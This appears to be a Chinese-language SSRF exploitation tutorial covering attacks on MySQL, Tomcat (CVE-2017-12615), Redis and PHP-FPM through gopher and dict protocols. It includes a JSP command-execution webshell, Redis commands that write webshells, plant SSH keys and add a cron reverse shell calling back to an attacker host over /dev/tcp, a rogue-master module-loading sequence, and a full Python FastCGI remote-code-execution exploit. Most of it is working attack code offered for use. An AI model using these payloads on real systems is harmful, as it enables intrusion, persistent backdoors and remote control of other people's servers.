

# SSRF打mysql未授权

## 手打

本地执行mysql命令，并用wireshark抓取流量包


执行命令后抓到流量包

找到tcp握手的流量包找到 追踪流 ->TCP流

找到红色部分（发送过去的tcp流），左下角可以做过滤

show data as改为原始数据（得到ascii值）

最后把ascii加工为url编码（换行去掉，每两个加一个%），这一步可以脚本去做或者ai

现在得到了<URL编码字符串>

最后发送payload：

```http
gopher://127.0.0.1:3306/_<URL编码字符串>
```

这样就是实现了对未授权mysql的查询

## 工具使用

git clone把项目克隆，克隆到kali直接用

完整利用过程



其他参数可以去github查

## 原理

就是抓包获取了给本地mysql做查询时的数据包内容，从而利用ssrf漏洞和gopher协议可以发送字节流信息的特性伪造流量包，进行sql查询。

# SSRF打tomcat文件上传 （CVE-2017-12615）

### Tomcat（CVE-2017-12615）

### 漏洞原理：

```XML
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件,虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

```HTTP
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<shell>
```

将以上数据包发送即可在web目录写webshell

### 漏洞复现：

准备好PUT方法上传文件的http数据包

```HTTP

PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%
    String command = request.getParameter("cmd");
    if(command != null)
    {
        java.io.InputStream in=Runtime.getRuntime().exec(command).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("");
        while((a=in.read(b))!=-1)
        {
            out.println(new String(b));
        }
        out.print("");
    } else {
        out.print("format: xxx.jsp?cmd=Command");
    }
%>
```

将以上payload经过url两次编码后通过gopher协议发出

```HTTP
gopher://127.0.0.1:8080/_<you_payload>
```

这里8080端口是tomcat默认端口

# redis未授权写webshell

## 手打

1. 先本地抓包，tcpdump监听，抓redis连接和执行命令的包
    

```Bash
tcpdump -i 接口 tcp and port 6379 -w redis.pcapng *-i：指定网卡，*-w：写入文件
```

2. redis-cli连接及执行命令(有密码就auth：123132)
    

```SQL
redis-cli -h 172.250.250.9 
CONFIG SET dir /var/www/html/  #修改 Redis 的数据持久化存储目录，redis默认的路径为dump.rdb
config set dbfilename info.php   #文件名修改为info.php
set payload "<?php phpinfo(); ?>"     #添加一个键值对
save         #保存
quit         停止cli连接
```

3. 导出tcpdump结果，在wireshark分析，追踪tcp流，找到红色（发送的包）
    
4. 把换行换成%0d%0A（url编码），？换成%3F
    
5. 最后得到payload用gopher发送请求，成功写入phpshell在/var/www/html/info.php
    
6. http协议访问即可解析phpshell
    

## 工具打

Gopherus工具直接得到payload


工具的payload是写入了一个shell.php，get提交命令即可

# redis未授权上传ssh公钥免密登录

依旧用之前啊抓到的tcp包，但是把数据换一下：

kali攻击机中执行

```Bash
ssh-keygen -t rsa
```

生成公私钥


我们需要把id_rsa.pub上传到目标服务器。

## 修改数据包：

- 上传路径改为/root/.ssh
    
- 文件名改为authorized_keys
    
- 文件内容改为公钥内容（前后各加两行换行，长度一共算4，因为redis生成文件会自动加两行破坏了文件结构）
    
- 注意长度也要改
    

最后还是把换行换成%0d%0A

然后gopher协议发送数据包。上传公钥成功

直接`ssh -i <私钥文件> -p <对方ssh端口>（一般22）root@<ip>`

然后就通过密钥连接了

# redis计划任务反弹shell

在/var/spool/cron下面写一个crontable文件

文件内容是反弹shell

手打也是和之前的一样，改一下目录文件名文件内容即可。

直接用Gopherus工具，用ReverShell模式


记得改端口

  

### 弊端


# dict协议打未授权redis

一个奇技淫巧

```Bash
dict://x.x.x.x:6379/<Redis 命令>
```


直接用dict协议可以执行redis命令

但是dict协议不支持换行符,所以不能像gopher一样一次性攻击,只能一行行输入

```Bash

curl 'dict://1.1.1.1:6379/config:set:dir:/etc/'
curl 'dict://1.1.1.1:6379/config:set:dbfilename:crontab'
curl 'dict://1.1.1.1:6379/set:mars:"\n\n* * * * * root bash -i >& /dev/tcp/vps ip/9999 0>&1\n\n"'
curl 'dict://1.1.1.1.119:6379/save'
```

https://forum.butian.net/share/133总结文章

# 通过主从复制打Redis

自从Redis4.x之后redis新增了一个模块功能，Redis模块可以使用外部模块扩展Redis功能，以一定的速度实现新的Redis命令，并具有类似于核心内部可以完成的功能。 Redis模块是动态库，可以在启动时或使用MODULE LOAD命令加载到Redis中。

通过工具：`Awsome-Redis-Rogue-Server`启动一个恶意redis服务器，并会自动设置主机服务。

通过gopher协议把目标redis服务设置为恶意redis的从机。

```Bash
python3 redis_rogue_server.py -v -path exp.so -lport 21000
```

gopher执行：

```Bash
_auth root
config set dir /tmp/
quit

/_auth root
config set dbfilename exp.so
slaveof 1.xx.xx.xx 21000
quit

_auth root
module load ./exp.so
quit

_auth root
slaveof NO ONE
quit

//没啥用
_auth root
config set dbfilename dump.rdb
quit

_auth root
system.exec "cat /flag"
quit

//反弹shell
system.rev 1.xx.xx.xx 6666
```

# ssrf打fastcgi

## 什么是fastcgi

**快速通用****网关****接口（Fast** **Common Gateway Interface****／FastCGI）是一种让交互程序与****Web服务器****通信的协议。**

一种通信协议，和http类似

- http：前端浏览器------>服务器中间件
    
- fastcgi：服务器中间件------>后端代码
    

fastcig也有header和body

> 一句话就是 Web 服务器中的 CGI 进程将接收到的 HTTP 请求数据读取到环境变量中，通过标准输入转发给 PHP 的 CGI 程序；当 PHP 程序处理完成后，Web 服务器中的 CGI 进程从标准输出中读取返回数据，并转换回 HTTP 响应消息格式，最终将页面呈献给用户。然后 Web 服务器关闭掉这个 CGI 进程。

## 什么是PHP-FPM（fastcgi进程管理器）

官方解释：FPM（FastCGI 进程管理器）用于替换 PHP FastCGI 的大部分附加功能，对于高负载网站是非常有用的。

简单说就是PHP-FPM是php解释器中，对**fastcgi的具体实现和代码执行** 进行统一管理

它分为两个进程，master和worker

- master负责接和转发http请求给worker进程
    
- worker负责执行php代码，并把结果发给web服务器
    

下面是动态网页的运行过程：


## 攻击原理

`SCRIPT_FILENAME': '/var/www/html/index.php`设置环境变量时有这样一对键值对，表示woker进程会执行这个文件。所以我们的目标就是可以自定义这个文件路径。

而在php5.3.9后来的版本中，php增加了安全选项导致只能控制php-fpm执行一些php、php4这样的文件，这也增大了攻击的难度。但是好在php官方允许通过PHP_ADMIN_VALUE和PHP_VALUE去动态修改php的设置。

我们可以设置 auto_prepend_file 为 php://input ，（需要注意同样也要配置远程文件包含选项 allow_url_include ）那么就等于在执行任何php文件前都要包含一遍POST的内容。那么我们只要将要执行的代码放在body中，就可以执行任意的代码了。

所以我们配置 PHP_VALUE 为 auto_prepend_file = php://input ， PHP_ADMIN_VALUE 为 allow_url_include = On 然后将我们需要执行的代码放在Body中，即可执行任意代码。

## exp：

```Python
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''

            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
```

## 攻击流程

1. 开启监听
    


2. 执行exp
    

```Python
python [脚本名] -c [要执行的代码] -p [端口号] [ip] [要执行的php文件]
```


9000端口是PHP-FPM的默认监听端口

会得到二进制流


3. python脚本转化成url编码
    

```Python
a='''you_hex  '''
a=a.replace('\n','')
a=a.replace(' ','')
b=''
length=len(a)
for i in range(0,length,2):
    b+='%'
    b+=a[i]
    b+=a[i+1]
print(b)
```

4. 然后再url编码用gopher发给ssrf服务器（记得是打9000端口）
    


## 工具

当然也可以用Gopherus直接接打